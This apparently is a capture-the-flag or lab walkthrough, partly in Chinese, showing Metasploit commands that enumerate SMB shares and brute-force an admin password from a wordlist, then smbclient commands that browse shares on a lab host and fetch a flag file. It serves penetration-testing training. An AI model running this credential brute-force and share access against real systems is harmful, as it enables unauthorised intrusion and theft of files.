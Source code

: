 ```
use auxiliary/scanner/smb/smb_enumshares
show options
set ShowFiles true
```

Perform a brute force in order to identify the password for the user admin. And that will consequently give us access to all of these shares.

SMB 登录检查扫描仪

该模块将在一系列机器上测试 SMB 登录并报告成功登录。如果您加载了数据库插件并连接到数据库，此模块将记录成功的登录和主机，以便您可以跟踪您的访问。

```
search smb_login
use auxiliary/scanner/smb/smb_login
show options
set SMBUser admin
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
exit
```

Check out the various shares and access the files within these shares.

`-L`: list out the shares.

```
smbclient -L \\\\192.91.46.3\\ -U admin
```

Access any of these shares.

```
smbclient \\\\192.91.46.3\public -U admin

smb: \> ls
smb: \> cd secret
smb: \> ls
smb: \> get flag
smb: \> exit

ls
cat flag
```

List out the shares again.

```
smbclient -L \\\\192.91.46.3\\ -U admin
```

Access the share for aisha.

```
smbclient \\\\192.91.46.3\\aisha -U admin

smb: \> ls
smb: \> cd dir
smb: \> ls
smb: \> exit
``` 
